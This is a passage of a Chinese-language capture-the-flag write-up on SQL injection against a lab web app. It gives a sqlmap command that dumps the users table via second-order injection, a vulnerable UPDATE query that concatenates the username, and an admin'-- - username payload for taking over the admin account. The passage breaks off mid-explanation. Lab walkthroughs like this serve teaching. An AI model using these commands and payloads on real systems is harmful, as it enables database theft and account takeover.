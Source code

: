 *****最后增加“ **-T 用户—转储**”*****

```
***sqlmap --tamper so-tamper.py --url [http://10.10.224.106:5000/challenge4/signup](http://10.10.224.106:5000/challenge4/signup) --data "username=admin&password=asd" --second-url [http://10.10.224.106:5000/challenge4/notes](http://10.10.224.106:5000/challenge4/notes) -p username --dbms=sqlite --technique=U --no-cast **-T users --dump*****
```

*****![](img/87fb5c2bf0f2037771c1dbb91319b5d5.png)*****

# *****任务 8:易受攻击的启动:更改密码*****

# *****目标*****

*****对于此挑战，注释页面上的漏洞已被修复。新的更改密码功能已经添加到应用程序中，因此用户现在可以通过导航到配置文件页面来更改他们的密码。新函数容易受到 SQL 注入攻击，因为 UPDATE 语句将用户名直接连接到 SQL 查询中，如下所示。这里的目标是利用易受攻击的功能来获取管理员帐户的访问权限。*****

# *****描述*****

*****开发人员为密码参数使用了一个占位符，因为该输入直接来自用户。用户名不是直接来自用户，而是根据存储在会话对象中的用户 id 从数据库中获取。因此，开发人员认为使用用户名是安全的，并将其直接连接到查询中，而不是使用占位符:*****

```
***UPDATE users SET password = ? WHERE username = '" + username + "'***
```

*****为了利用这个漏洞并获得管理员用户帐户的访问权限，我们可以创建一个名为`admin'-- -`的用户。*****

*****注册恶意用户后，我们可以更新新用户的密码来触发漏洞。更改密码时，应用程序执行两个查询。首先，它向数据库询问我们当前用户的用户名和密码:*****

```
***SELECT username, password FROM users WHERE **id** = ?***
```
